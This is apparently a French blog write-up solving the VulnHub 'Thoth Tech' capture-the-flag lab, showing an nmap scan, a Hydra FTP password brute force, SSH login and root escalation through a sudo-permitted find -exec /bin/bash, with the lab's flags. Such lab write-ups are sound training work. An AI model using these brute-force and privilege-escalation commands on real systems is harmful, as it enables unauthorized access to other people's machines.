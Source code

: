 ```yaml
---
title: "Solution du CTF Thoth Tech de VulnHub"
tags: [VulnHub, CTF]
---
```


Le CTF [Thoth Tech](https://vulnhub.com/entry/thoth-tech-1,734/) a été l'un des challenges les plus courts que j'ai résolu, peut être même le plus court.

En fait, télécharger la VM a pris plus de temps que de résoudre le CTF.

Nmap retourne trois ports ouverts pour la machine :

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

Le FTP autorise les connexions anonymes et on y trouve un fichier `note.txt` :

```
Dear pwnlab,

My name is jake. Your password is very weak and easily crackable, I think change your password.
```

Du coup je lance le bruteforce sur le serveur FTP :

```console
$ hydra -e nsr -l pwnlab -P rockyou.txt ftp://192.168.56.147
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-04-02 10:38:36
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344384 login tries (l:1/p:14344384), ~896524 tries per task
[DATA] attacking ftp://192.168.56.147:21/
[21][ftp] host: 192.168.56.147   login: pwnlab   password: babygirl1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-04-02 10:39:28
```

Cet identifiant fonctionne aussi sur le SSH :

```console
pwnlab@thothtech:~$ cat user.txt 
5ec2a44a73e7b259c6b0abc174291359
```

Petit aparté sur le port 80 : à l'adresse `/wordpress` on trouve un *Wordpress* configuré avec une adresse IP autre que celle que la VM a récupérée par DHCP... Du coup pas vraiment utilisable.

Quoi qu'il en soit notre utilisateur peut lancer `find` via `sudo` :

```console
pwnlab@thothtech:~$ sudo -l
Matching Defaults entries for pwnlab on thothtech:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwnlab may run the following commands on thothtech:
    (root) NOPASSWD: /usr/bin/find
pwnlab@thothtech:~$ sudo /usr/bin/find /etc/passwd -exec /bin/bash \;
root@thothtech:/home/pwnlab# cd /root
root@thothtech:~# ls
root.txt  snap
root@thothtech:~# cat root.txt
Root flag: d51546d5bcf8e3856c7bff5d201f0df6

good job :)
```


